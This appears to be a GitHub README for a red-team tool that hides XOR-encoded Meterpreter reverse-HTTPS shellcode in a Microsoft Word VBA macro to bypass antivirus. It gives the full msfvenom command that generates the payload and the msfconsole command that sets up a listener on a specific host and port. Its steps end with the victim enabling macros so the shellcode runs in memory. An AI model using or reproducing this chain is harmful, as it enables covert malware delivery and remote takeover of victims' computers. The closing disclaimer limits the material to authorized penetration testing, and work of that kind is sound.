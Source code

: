 # VBA Macro Runner Encoded Execution

## Overview
This project demonstrates how to encrypt a shellcode (revshell) payload for execution within a Microsoft Word VBA macro. The encryption process enhances evasion techniques to **_<u>bypass AV</u>_** by encoding the payload before execution.

## Steps
### 1. Generate the Shellcode
Use `msfvenom` to generate a reverse HTTPS payload in C# format:
```sh
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.142 LPORT=443 EXITFUNC=thread -f csharp
```

### 2. Encrypt the Payload
- Use the provided C# encryption script (`XOR_encoder`) to XOR the shellcode with a static key (`0xFA`).
- The python3 script will do the same.

### 3. Embed the Encrypted Payload in VBA Macro
- Open Microsoft Word and access the VBA Editor (`ALT + F11`)
- Insert a new module and paste the `VBA_Macro_Shellcode_Execution` file content

### 4. Setup Metasploit Listener
Start Metasploit and configure the multi-handler:
```sh
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.1.142; set LPORT 443; exploit"
```

### 5. Execute the VBA Macro
- Open the Word document containing the macro
- Enable macros when prompted
- The encoded payload is decoded and executed in memory

![Captura de pantalla 2025-03-11 a la(s) 16 27 16](https://github.com/user-attachments/assets/368db687-88f2-47ce-ba49-eb61860841b0)


### 6. Compatibility Note
If Microsoft Word is running in 32-bit, the payload and handler must be adjusted for x86 compatibility by replacing `windows/x64/meterpreter/reverse_https` with `windows/meterpreter/reverse_https` in both the shellcode generation with msfvenom and the listener configuration in Metasploit.

A useful hint is to check whether Microsoft Word on the DEV or TEST machine is running in 64-bit or 32-bit mode. 

## Disclaimer
This project is intended for educational and authorized penetration testing purposes only. Unauthorized use is strictly prohibited.

